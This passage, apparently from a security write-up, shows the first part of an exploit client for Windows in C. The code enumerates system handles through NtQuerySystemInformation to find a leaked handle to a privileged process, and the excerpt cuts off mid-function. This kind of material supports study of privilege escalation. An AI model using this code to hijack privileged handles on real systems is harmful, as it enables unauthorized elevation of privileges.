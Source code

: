 The client is, of course, a little more involved. The only component that needs
a little discussion up front is fetching the leaked handle. This can be done
via `NtQuerySystemInformation` and does not require any special privileges:

```
void ProcessHandles()
{
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    _NtQuerySystemInformation NtQuerySystemInformation =
        (_NtQuerySystemInformation)GetProcAddress(hNtdll, "NtQuerySystemInformation");
    _NtDuplicateObject NtDuplicateObject =
        (_NtDuplicateObject)GetProcAddress(hNtdll, "NtDuplicateObject");
    _NtQueryObject NtQueryObject =
        (_NtQueryObject)GetProcAddress(hNtdll, "NtQueryObject");
    _RtlEqualUnicodeString RtlEqualUnicodeString =
        (_RtlEqualUnicodeString)GetProcAddress(hNtdll, "RtlEqualUnicodeString");
    _RtlInitUnicodeString RtlInitUnicodeString = 
        (_RtlInitUnicodeString)GetProcAddress(hNtdll, "RtlInitUnicodeString");

    ULONG handleInfoSize = 0x10000;
    NTSTATUS status;
    PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
    DWORD dwPid = GetCurrentProcessId();


    printf("[+] Looking for process handles...\n");

    while ((status = NtQuerySystemInformation(
        SystemHandleInformation,
        phHandleInfo,
        handleInfoSize,
        NULL
    )) == STATUS_INFO_LENGTH_MISMATCH)
        phHandleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(phHandleInfo, handleInfoSize *= 2);

    if (status != STATUS_SUCCESS)
    {
        printf("NtQuerySystemInformation failed!\n");
        return;
    }

    printf("[+] Fetched %d handles\n", phHandleInfo->HandleCount);

    // iterate handles until we find the privileged process
    for (int i = 0; i < phHandleInfo->HandleCount; ++i)
    {
        SYSTEM_HANDLE handle = phHandleInfo->Handles[i];
        POBJECT_TYPE_INFORMATION objectTypeInfo;
        PVOID objectNameInfo;
        UNICODE_STRING objectName;
        ULONG returnLength;

        // Check if this handle belongs to the PID the user specified
        if (handle.ProcessId != dwPid)
            continue;

        objectTypeInfo = (POBJECT_TYPE_INFORMATION)malloc(0x1000);
        if (NtQueryObject(
            (HANDLE)handle.Handle,
            ObjectTypeInformation,
            objectTypeInfo,
            0x1000,
            NULL
        ) != STATUS_SUCCESS)
```